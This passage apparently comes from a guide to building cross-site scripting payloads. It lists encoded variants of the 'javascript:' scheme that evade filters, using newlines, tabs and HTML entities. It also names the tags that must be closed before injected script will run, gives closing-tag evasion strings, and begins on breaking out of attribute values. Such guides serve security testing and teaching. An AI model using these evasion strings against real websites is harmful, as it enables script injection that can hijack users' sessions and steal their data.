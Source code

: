 The noticeable difference between these two variants is the `{special}` component as well as the `{quote}`s.
The `{special}` refers to an obfuscated version of the string `javascript` which can be obfuscated using newline and horizontal tab characters, as follows:

- `j%0aAv%0dasCr%09ipt:`
- `J%0aa%0av%0aa%0as%0ac%0ar%0ai%0ap%0aT%0a:`
- `J%0aa%0dv%09a%0as%0dc%09r%0ai%0dp%09T%0d%0a:`

Numeric character encoding can also be used to evade detection in some cases. Both decimal and hexadecimal can be used.

- `&#74;avascript&colon;`
- `jav&#x61;&#115;cript:`

Obviously, these two obsfucation techniques can be used together if required.
- `&#74;ava%0a%0d%09script&colon;`

#### Executable and Non-executable Context

Outside tag context can be further divided into **Executable** and **Non-executable** context based on whether or not the injected payload can execute without any special aid.
Non-executable context occurs when the input gets reflected within a HTML comment i.e. `<--$input-->` or inbetween the following tags:

```
<style>
<title>
<noembed>
<template>
<noscript>
<textarea>
```

These tags must be closed in order to execute the payload. Thus, the only difference between  testing exectuable and non-executable context is the testing of the `{closing tag}` component, which can be done as follows:

- `</tag>`
- `</tAg/x>`
- `</tag{space}>`
- `</tag//>`
- `</tag%0a>`
- `</tag%0d>`
- `</tag%09>`


Once a working closing tag scheme is discovered, `{closing tag}{any payload from executable payload section}` can be used for a successful injection.

### Inside Tag

#### Within/as Attribute Value
The primary character for this context is the quote used to enclose the attribute value. For instance, if the input is getting reflected as `<input value="$input" type="text">` then the primary character would be `"`.
However, in some cases, the primary character is not required to break out of the context. 
